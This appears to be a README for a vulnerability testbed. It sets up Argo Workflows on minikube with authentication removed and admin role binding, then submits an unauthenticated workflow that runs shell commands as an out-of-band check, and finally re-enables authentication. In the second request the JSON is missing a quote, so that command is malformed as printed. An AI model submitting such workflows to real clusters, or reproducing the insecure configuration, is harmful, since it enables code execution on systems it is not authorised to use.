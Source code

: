 # Setup Requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# Vulnerable Instance
## Install Argo Workflows
```bash
kubectl create namespace argo
kubectl apply -n argo -f https://github.com/argoproj/argo-workflows/releases/download/v3.5.5/install.yaml
```
## Remove Authentication
```bash
kubectl patch deployment argo-server --namespace argo  --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/args", "value": ["server","--auth-mode=server"]}]'
```

## Allow Argo to Interact with the Resources in Your Kubernetes Cluster with admin-level Privileges
```bash
kubectl create rolebinding argo-default-admin --clusterrole=admin --serviceaccount=argo:default -n argo
```
## Expose the UI to localhost
```bash
kubectl -n argo port-forward deployment/argo-server 2746:2746
```
## Validate with OOB
Replace `PAYLOAD` with your payload and escape the `"` as it is a json value.
```bash
curl 'https://127.0.0.1:2746/api/v1/workflows/default' \
  -H 'Content-Type: application/json' \
  --data-raw '{"workflow":{"apiVersion":"argoproj.io/v1alpha1","kind":"Workflow","metadata":{"name":"","generateName":"scripts-"},"spec":{"destination":{"name":"","namespace":"","server":""},"source":{"path":"","repoURL":"","targetRevision":"HEAD"},"project":"","entrypoint":"aaaaaa","templates":[{"name":"aaaaaa","script":{"image":"curlimages/curl:7.78.0","command":["sh"],"source":"curl URL"}}]}}}' \
  --insecure
```
# Secure Instance
after setting up a vulnerable version, change the authentication mode to client.
## Change Authentication
```bash
kubectl patch deployment argo-server --namespace argo  --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/args", "value": ["server","--auth-mode=client"]}]'
```
## Expose the UI to localhost
```bash
kubectl -n argo port-forward deployment/argo-server 2746:2746
```
## Check that authentication is enabled
```bash
curl 'https://127.0.0.1:2746/api/v1/workflows/default' \
  -H 'Content-Type: application/json' \
  --data-raw '{"workflow":{"apiVersion":"argoproj.io/v1alpha1","kind":"Workflow","metadata":{"name":"","generateName":"scripts-"},"spec":{"destination":{"name":"","namespace":"","server":""},"source":{"path":"","repoURL":"","targetRevision":"HEAD"},"project":"","entrypoint":"aaaaaa","templates":[{"name":"aaaaaa","script":{"image":"curlimages/curl:7.78.0","command":["sh"],"source":"curl URL}}]}}}' \
  --insecure
```
It will respond with `{"code":16,"message":"token not valid. see https://argo-workflows.readthedocs.io/en/release-3.5/faq/"}`, proving that the authentication layer is active.


Ref: mostly from https://spacelift.io/blog/argo-workflows and https://argo-workflows.readthedocs.io/en/stable/argo-server-auth-mode/
